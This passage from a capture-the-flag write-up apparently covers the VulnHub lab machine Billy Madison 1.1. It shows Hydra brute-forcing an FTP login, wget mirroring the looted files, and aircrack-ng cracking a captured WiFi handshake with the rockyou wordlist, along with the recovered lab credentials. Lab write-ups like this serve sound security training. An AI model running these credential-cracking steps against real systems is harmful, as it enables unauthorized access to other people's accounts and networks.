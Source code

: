 	Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2022-02-23 21:09:24
	[DATA] max 16 tasks per 1 server, overall 16 tasks, 776 login tries (l:1/p:776), ~49 tries per task
	[DATA] attacking ftp://192.168.110.34:21/
	[21][ftp] host: 192.168.110.34   login: veronica   password: babygirl_veronica07@yahoo.com
	1 of 1 target successfully completed, 1 valid password found
	Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2022-02-23 21:09:43
	```
	- veronica:babygirl_veronica07@yahoo.com
2. Download all files 
	``` 
	┌──(root💀kali)-[~/vulnHub/Billy_Madison_1.1/192.168.110.34/loot/veronica_ftp]
	└─# wget -m --no-passive ftp://veronica:babygirl_veronica07%40yahoo.com@$ip
	```
3. View files
	- `email-from-billy.eml`
	![](Pasted%20image%2020220223214116.png)
	- `eg-01.cap`
		- packet capture file

## Crack .cap file
1. `eg-01.cap` captured WiFi traffic
	``` 
	┌──(root💀kali)-[~/vulnHub/Billy_Madison_1.1/192.168.110.34/loot/veronica_ftp/192.168.110.34]
	└─# tcpdump -r eg-01.cap 
	reading from file eg-01.cap, link-type IEEE802_11 (802.11), snapshot length 65535
	```
	- [`IEEE802_11`](https://www.electronics-notes.com/articles/connectivity/wifi-ieee-802-11/what-is-wifi.php#:~:text=The%20technical%20name%20for%20WiFi,devices%20from%20a%20router%20%2F%20hotspot.&text=Wi-Fi%20wireless%20connectivity%20is%20an%20established%20part%20of%20everyday%20life.)
2. Crack `eg-01.cap` w/ `aircrack-ng`
	``` 
	┌──(root💀kali)-[~/vulnHub/Billy_Madison_1.1/192.168.110.34/loot/veronica_ftp/192.168.110.34]
	└─# aircrack-ng eg-01.cap -w /usr/share/wordlists/rockyou.txt 
	
	                               Aircrack-ng 1.6 

      [00:12:25] 3051073/14344392 keys tested (4151.08 k/s) 

      Time left: 45 minutes, 20 seconds                         21.27%

                           KEY FOUND! [ triscuit* ]


      Master Key     : 9E 8B 4F E6 CC 5E E2 4C 46 84 D2 AF 59 4B 21 6D 
                       B5 3B 52 84 04 9D D8 D8 83 67 AF 43 DC 60 CE 92 

      Transient Key  : 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 
                       00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 
                       00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 
                       00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 

      EAPOL HMAC     : 86 63 53 4B 77 52 82 0C 73 4A FA CA 19 79 05 33 

	```
	![](Pasted%20image%2020220223220417.png)
	- eric:triscuit*
